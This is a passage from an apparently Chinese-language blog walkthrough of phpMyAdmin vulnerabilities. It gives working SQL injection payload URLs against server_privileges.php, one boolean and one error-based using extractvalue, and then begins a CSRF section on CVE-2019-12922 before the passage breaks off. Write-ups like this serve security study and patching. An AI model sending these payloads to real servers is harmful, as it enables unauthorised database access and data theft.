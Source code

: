 设置变量`validate_username` 为真值；

设置变量`username` 为我们拼接的注入语句。

构造payload：

```javascript
http://192.168.209.139:8001/server_privileges.php?ajax_requests=true&validate_username=1&username=1%27or%201=1%20--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```

（token和其余参数会在访问页面的时候自动提供）

我们查看后端收到的数据，可以看到SQL已经成功拼接。

![img](https://img2020.cnblogs.com/blog/1605154/202010/1605154-20201014153855019-226491722.png)

执行完毕后程序只会告知SQL是否执行成功，失败会报错，因此此处我们可以利用报错注入。

构造payload：

```javascript
http://192.168.209.139:8001/server_privileges.php?ajax_request=true&validate_username=1&username=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```

结果如下，可以看到已经成功执行了我们注入的指令。

![img](https://img2020.cnblogs.com/blog/1605154/202010/1605154-20201014153902353-723535547.png)

[CVE-2020-0554：phpMyAdmin后台SQL注入](https://cloud.tencent.com/developer/article/1599837)



## 3.7 CVE-2019-12922 跨站请求伪造

影响范围：

```markdown
phpMyAdmin version
	<= 4.9.0.1
```

利用如下：

在登录状态下，添加一个服务器

![img](https://img2020.cnblogs.com/blog/1605154/202010/1605154-20201014153909869-1655502862.png)

```javascript
http://192.168.123.65/phpmyadmin/setup/index.php
```

![img](https://img2020.cnblogs.com/blog/1605154/202010/1605154-20201014153916720-959046693.png)

![img](https://img2020.cnblogs.com/blog/1605154/202010/1605154-20201014153924147-810378326.png)

点击删除时，通过工具抓包
